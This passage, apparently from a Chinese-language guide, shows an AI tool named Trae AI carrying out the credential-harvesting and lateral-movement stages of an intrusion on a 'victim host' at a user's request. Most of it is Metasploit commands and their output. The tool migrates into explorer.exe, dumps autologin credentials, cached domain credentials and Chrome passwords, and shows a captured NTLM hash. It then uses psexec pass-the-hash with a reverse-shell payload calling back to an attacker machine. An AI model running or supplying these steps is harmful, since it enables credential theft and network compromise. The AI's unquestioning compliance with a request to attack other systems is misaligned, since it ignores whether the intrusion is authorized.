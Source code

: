 ### 階段 5：憑據收集

**用戶提問：**
```
從受害主機中提取憑據信息
```

**Trae AI 執行流程：**
```
# 1. 遷移到穩定進程
sessions -i 1
migrate -N explorer.exe

# 2. 提取系統憑據
use post/windows/gather/credentials/windows_autologin
set SESSION 1
run

# 3. 嘗試提取緩存的域憑據
use post/windows/gather/cachedump
set SESSION 1
run

# 4. 檢查瀏覽器保存的密碼
use post/windows/gather/enum_chrome
set SESSION 1
run
```

**憑據發現：**
```
[+] Found cached domain credentials:
    Username: john.doe
    Domain: COMPANY
    Hash: aad3b435b51404eeaad3b435b51404ee:8846f7eaee8fb117ad06bdd830b7586c
```

### 階段 6：橫向移動

**用戶提問：**
```
使用獲得的憑據攻擊其他系統
```

**Trae AI 執行流程：**
```
# 1. 使用 PSExec 橫向移動到服務器
use exploit/windows/smb/psexec
set RHOSTS 192.168.1.30
set SMBUser john.doe
set SMBPass aad3b435b51404eeaad3b435b51404ee:8846f7eaee8fb117ad06bdd830b7586c
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 192.168.1.100
set LPORT 4445
exploit

# 2. 驗證新的訪問權限
sessions -i 2
sysinfo
getuid
```

